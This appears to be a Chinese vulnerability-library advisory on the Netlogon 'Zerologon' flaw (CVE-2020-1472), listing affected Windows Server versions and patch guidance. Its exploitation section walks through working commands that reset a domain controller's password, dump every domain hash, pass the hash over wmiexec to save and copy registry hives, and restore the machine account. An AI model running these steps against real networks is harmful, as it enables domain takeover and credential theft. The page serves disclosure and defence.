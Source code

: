```yaml
---
title: 'Netlogon 特权提升漏洞（CVE-2020-1472）'
date: Tue, 15 Sep 2020 00:55:05 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 背景

NetLogon特权提升漏洞（CVE-2020-1472）的详细信息与验证脚本，导致漏洞风险骤然提升。未经身份验证的攻击者通过NetLogon远程协议（MS-NRPC）建立与域控制器连接的 安全通道时，可利用此漏洞获取域管理员访问权限。此漏洞为微软8月补丁更新时披露，CVSS评分为10，影响广泛，请相关用户尽快采取措施进行防护。

#### 受影响版本

Windows Server 2008 R2 for x64-based Systems Service Pack 1 Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) Windows Server 2012 Windows Server 2012 (Server Core installation) Windows Server 2012 R2 Windows Server 2012 R2 (Server Core installation) Windows Server 2016 Windows Server 2016 (Server Core installation) Windows Server 2019 Windows Server 2019 (Server Core installation) Windows Server, version 1903 (Server Core installation) Windows Server, version 1909 (Server Core installation) Windows Server, version 2004 (Server Core installation)

#### 漏洞检测

poc 链接：`https://pan.baidu.com/s/1_RpVEA4W_Lo_ildh-FdqKQ` 提取码：tilx 受影响版本主机，检测验证结果如下： ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/微信图片_20200915085231.jpg)

#### 漏洞利用

1.重置密码，获取域内所有的用户hash，利用exp：`https://github.com/dirkjanm/CVE-2020-1472````
py -3 cve-2020-1472-exploit.py dc-01 192.169.1.253 
```2.Dump域控制上的hash```
py -3 secretsdump.py xxxxx/dc-01\$@192.168.1.253 -no-pass 
```3.利用获取到的管理员hash远程连接导出sam数据库中原来的计算机hash```
py -3 wmiexec.py -hashes [hash] xxxx/administrator@192.168.1.253
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg saveHKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f  sam.save
del /f security.save
exit

py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL 
从而获取到MACHINE.ACC：xxxxxxxxxxxxxxxxxxx 
```4.恢复ntds.dit中的计算机hash并验证：`https://github.com/risksense/zerologon` 需要注意的是最后的hash使用的是上图获取到的MACHINE.ACC”:”后面的部分。```
py -3 reinstall_original_pw.py dc-01 192.168.253.163 [上一步获取到的hash] 
```5.最后验证密码是否已经改回去，注意结尾是$。```
py -3 secretsdump xxxx/administrator:admin123#@\!..@192.168.1.253 -just-dc-user dc-01\$ 

```

#### 漏洞防护

1)官方升级 目前微软官方已针对受支持的产品版本发布了修复此漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接： `https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472` 2）其他防护措施 在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响： 请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》： `https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc`

#### 注意事项

由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。 补丁更新确认： 右键点击Windows图标，选择“设置(N)”，选择“更新和安全”-“Windows更新”，查看该页面上的提示信息，也可点击“查看更新历史记录”查看历史更新情况。 针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。
```



## 演示截图

![img](Netlogon 特权提升漏洞（CVE-2020-1472）/img20200915085843.png)

## exp

exp目前已经公布，地址为
 https://github.com/blackarrowsec/redteam-research